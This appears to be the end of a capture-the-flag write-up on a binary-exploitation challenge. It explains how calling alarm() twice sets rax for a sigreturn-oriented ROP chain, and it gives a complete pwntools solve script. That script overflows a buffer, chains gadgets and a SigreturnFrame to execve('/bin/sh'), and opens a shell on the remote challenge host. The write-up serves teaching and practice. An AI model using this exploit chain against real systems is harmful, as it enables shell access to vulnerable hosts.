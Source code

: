 but this is still not enough! we can't set rax to 15 then run a syscall to get our srop chain to work, so now what?

this is where i stopped and couldnt figure out how to get my chain to run, but the solution was the last remaining unused code - the `set_alarm` function! why / how is it used???

the `alarm()` syscall returns the seconds remaining from any previous alarm into rax

if there was an old alarm with 15 seconds left, rax becomes 15, and so we can call it twice to set it to what we need to run the syscall for `sigreturn`!

so to recap, what we have to do is:
1. scream some As
2. `set_alarm()` twice → rax = 15
3. `syscall()` → takes from whatever is in rax
4. our sigreturn frame

and we get our shell!
the final solve script looks like this:
```python
#!/usr/bin/env python3
from pwn import *
context.update(arch='amd64', os='linux')
context.log_level = 'debug'

elf = ELF('./vuln', checksec=False)
rop = ROP(elf)

# p   = process(elf.path)
p = remote("chal1.sieberr.live", 15005)

SYSCALL = rop.find_gadget(["syscall"])[0]
BINSH = next(elf.search(b"/bin/sh"))
set_alarm = 0x40102f
print(hex(SYSCALL))
print(hex(BINSH))

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve()
frame.rdi = BINSH           # pointer to "/bin/sh"
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL         # `syscall` gadget

OFFSET  = 0x100 + 8
payload = flat(
    b'A'*OFFSET,
    p64(set_alarm)*3, # why 3 times? idk https://amritabi0s.wordpress.com/2017/12/24/inctf-2017-stupidrop-writeup/
    p64(SYSCALL),
    bytes(frame)
)
p.recvuntil(b"YEARNED for the /bin/sh")
p.send(payload)
p.interactive()
# sctf{sieberrrrsec_r0p_h4h4h4h4h4}
```
